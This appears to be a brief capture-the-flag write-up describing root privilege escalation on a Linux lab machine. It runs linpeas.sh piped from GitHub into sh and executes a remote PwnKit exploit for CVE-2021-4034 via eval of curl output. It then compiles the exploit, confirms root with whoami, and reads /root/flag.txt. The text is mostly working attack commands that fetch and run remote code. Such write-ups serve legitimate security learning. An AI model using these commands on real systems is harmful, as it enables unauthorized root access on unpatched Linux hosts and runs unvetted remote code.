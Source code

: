 I've used Linpeas like this first to see which vulnerabilities I could try to exploit :

    curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

The vulnerability I chose is **CVE-2021-4034** and I downloaded an existing script to exploit it and then I did as instructed in the Readme file :

    eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
    cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
    cc -Wall    cve-2021-4034.c   -o cve-2021-4034
    echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
    mkdir -p GCONV_PATH=.
    cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.

Then check user with command :

    whoami
    #root

Then you'll be in the shell as root and be able to navigate to the root folder where you'll find the flag.txt file:

    cd /root/
    cat flag.txt
